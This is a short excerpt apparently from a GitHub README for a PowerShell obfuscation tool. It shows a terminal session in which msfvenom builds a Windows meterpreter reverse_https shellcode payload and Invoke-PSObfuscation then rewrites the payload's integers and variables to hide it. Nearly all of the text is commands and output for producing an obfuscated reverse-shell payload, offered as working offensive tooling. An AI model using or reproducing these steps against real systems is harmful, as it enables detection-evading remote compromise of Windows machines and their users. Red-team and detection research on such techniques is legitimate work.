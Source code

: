 ### Obfuscated PowerShell Reverse Shell

![Alt text](./screenshots/0bFu5c4t3d.jpg "0bFu5c4t3d")

### Meterpreter PowerShell Shellcode

```shell
┌──(tristram㉿kali)-[~]
└─$ pwsh 
PowerShell 7.1.3
Copyright (c) Microsoft Corporation.

https://aka.ms/powershell
Type 'help' to get help.

PS /home/kali> msfvenom -p windows/meterpreter/reverse_https LHOST=127.0.0.1 LPORT=443 EXITFUNC=thread -f ps1 -o meterpreter.ps1
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 686 bytes
Final size of ps1 file: 3385 bytes
Saved as: meterpreter.ps1
PS /home/kali> . ./Invoke-PSObfuscation.ps1                                                                                        
PS /home/kali> Invoke-PSObfuscation -Path ./meterpreter.ps1 -Integers -Variables -OutFile o-meterpreter.ps1                     

     >> Layer 0 Obfuscation
     >> https://github.com/gh0x0st

[*] Obfuscating integers
[*] Obfuscating variables
[*] Writing payload to o-meterpreter.ps1
[*] Done
```
